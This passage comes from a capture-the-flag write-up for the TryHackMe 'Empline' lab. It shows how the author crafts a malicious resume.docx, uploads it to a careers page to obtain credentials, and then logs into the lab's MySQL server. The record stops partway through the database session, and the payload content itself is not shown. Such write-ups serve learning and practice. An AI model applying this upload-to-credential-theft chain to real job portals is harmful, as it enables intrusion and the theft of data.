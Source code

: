 {% highlight shell %}
┌──(root💀kali)-[/opt/thm/empline]
└─# zip resume.docx word/document.xml
updating: word/document.xml (deflated 65%)
{% endhighlight %}

I used a python script to create the file per the blog post, and then 7x to extract it so I could access *document.xml*. No Windows or Office required!

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/empline]
└─# file resume.docx 
resume.docx: Microsoft OOXML
                                                                                                                                       
┌──(root💀kali)-[/opt/thm/empline]
└─# 7z x resume.docx 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD Ryzen 5 3400G with Radeon Vega Graphics     (810F81),ASM,AES-NI)

Scanning the drive for archives:
1 file, 36585 bytes (36 KiB)

Extracting archive: resume.docx
--
Path = resume.docx
Type = zip
Physical Size = 36585

Everything is Ok

Files: 17
Size:       826202
Compressed: 36585
{% endhighlight %}

For completeness, here's the python script:

{% highlight python %}
from docx import Document

document = Document()
paragraph = document.add_paragraph('Squidward')
document.save('resume.docx')
{% endhighlight %}

Right; we get some credentials back in the webapp after uploading our payload here: http://job.empline.thm/careers/index.php?m=careers&p=onApplyToJobOrder

Then it's base64 decode and...now what? This is when I reran my port scan and found mysql open.

### Mysql
This was pretty straightforward; connect to mysql with our creds and grab the users from the table:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/empline]
└─# mysql --host=empline.thm -u james -p                                                   
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 98
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |